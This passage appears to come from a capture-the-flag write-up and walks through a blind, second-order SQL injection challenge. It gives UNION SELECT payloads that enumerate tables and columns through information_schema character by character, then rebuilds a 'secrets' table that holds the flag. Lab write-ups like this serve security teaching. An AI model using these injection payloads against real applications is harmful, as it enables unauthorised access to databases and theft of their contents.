 Slow but steady, and it’s satisfying watching it reconstruct strings, table names, and columns one byte at a time.

---

## Database Enumeration

The same pattern is used to enumerate table names, using:

```
' UNION SELECT NULL, ASCII(SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET X),N,1)) --
```

Adjusting the offset, table names like `users` are extracted.

Counting tables:

```
' UNION SELECT NULL, COUNT(*) FROM information_schema.tables --
```

Result: 198 tables.

Column names are enumerated via:

```
' UNION SELECT NULL, ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET X),N,1)) --
```

Results yield:
`users(id, username, pronouns, email, password, verified, is_admin)`

Attempts to change `is_admin` or read admin passwords are blocked/protected.

Further enumeration reveals tables: `movies`, `comments`, and `secrets`.

Examining `secrets` gives: `secrets(id, content, classification)`

---

## Flag Extraction

Iterating through rows and columns, extracting one character at a time, the entire `secrets` table is rebuilt:

| id | content                                              | classification                         |
| -- | ---------------------------------------------------- | -------------------------------------- |
| 1  | this\_is\_the\_flag                                  | SHLK{S3CoNd\_0RDeR\_4rEN7\_AwE50me\_?} |
| 2  | Ce challenge est fait par un étudiant épitéen.       | Secret                                 |
| 3  | La solution du challenge se trouve dans cette table. | Très secret                            |

---

## TL;DR
